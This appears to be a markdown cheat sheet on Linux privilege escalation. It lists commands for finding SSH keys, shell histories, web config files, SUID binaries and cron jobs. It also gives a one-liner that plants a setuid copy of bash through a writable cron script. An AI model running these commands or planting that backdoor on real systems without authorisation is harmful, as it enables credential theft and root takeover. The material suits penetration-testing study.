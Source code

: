 # 3 privEsc (linux)

## Manual scanning

- Check for sensitive files in home directories.

```
find /home/ -name .bash_history 2> /dev/null
find /home/ -name .ssh 2> /dev/null
```

- Check for sensitive files in web server directory.

```
find /var/www/ -name "config.php"
find /var/www/ -name "initialize.php"
find /var/www/ -name "*.db"
which msyql
```

- Check for sensitive files in other directories.

```
/home
~
/
```

- Check for weak password files

```shell
ls -l /etc/passwd
ls -l /etc/shadow
```

- Check sudo commands.
You don't always need the user creds to run this escalation!

```shell
sudo -l
```

- Check group memberships.

```shell
id
```

- Check for files owned by a specific user

```shell
find / -user username 2> /dev/null
```

- Check for interesting cronjobs. 

```
cat /etc/crontab
```

A nice one liner to overwrite in scripts is

```shell
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

- Check files that have SUID bits set.

```shell
find / -perm -u=s -type f -ls 2>/dev/null
```

- Check for Linux capabilities

```shell
getcap -r / 2> /dev/null
```

- Check socket statistics for processes exposed on the machine.

```
ss -s -l -n -t -u
```

- Check the environment variables of the shell. 
- Check if there are scripts or commands to are vulnerable to `PATH` manipulation.
- Check for kernel exploits.
  - Determine kernel version using `uname -a`.
  - Search exploit databases for match.
  - Run exploit.

## Automated scanning
- LinPeas [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng).
- LinEnum [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum).

